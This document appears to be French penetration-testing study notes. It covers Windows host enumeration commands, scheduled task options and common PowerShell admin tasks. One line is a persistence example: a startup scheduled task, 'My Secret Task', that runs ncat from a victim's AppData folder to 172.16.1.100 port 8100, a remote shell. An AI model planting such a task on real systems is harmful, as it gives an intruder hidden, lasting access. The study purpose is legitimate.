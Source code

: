 Quelles informations système pouvons-nous tirer de notre hôte cible?
Avec quel autre système(s) notre hôte cible interagit-il sur le réseau?
À quel compte utilisateur(s) avons-nous accès et quelles informations sont accessibles depuis le compte(s)?
À quel compte utilisateur avons-nous accès?
À quels groupes appartient notre utilisateur?
À quel ensemble de privilèges de travail notre utilisateur a-t-il accès?
À quelles ressources nos utilisateurs peuvent-ils accéder via le réseau?
Quelles tâches et quels services sont exécutés sous notre compte utilisateur?

hostname
systeminfo
whoami
whoami /priv
whoami /groups
ver
ipconfig
ipconfig /all
arp /a
net user
net localgroup
net share
net view
where cmd
tree /F c:\
tasklist /svc
net start
wmic service list brief  

## Scheduled Tasks  

`SCHTASKS /Query /V /FO list`

- /create: pour lui dire ce que nous faisons
- /sc: nous devons établir un calendrier
- /tn: nous devons définir le nom
- /tr: nous devons lui donner une action à prendre
  
 `chtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`

## Powershell

Tache connu utlisé sur powerShell :

Provisioning des serveurs et installation des rôles de serveur
Création de comptes utilisateur Active Directory pour les nouveaux employés
Gestion des autorisations de groupe Active Directory
Désactivation et suppression des comptes utilisateurs Active Directory
Gestion des autorisations de partage de fichiers
Interagir avec Azure VMs AD et Azure
Création, suppression et surveillance des répertoires et des fichiers
Collecte d'informations sur les postes de travail et les serveurs
Configuration des boîtes de réception Microsoft Exchange pour les utilisateurs (dans le cloud et/ou sur site)
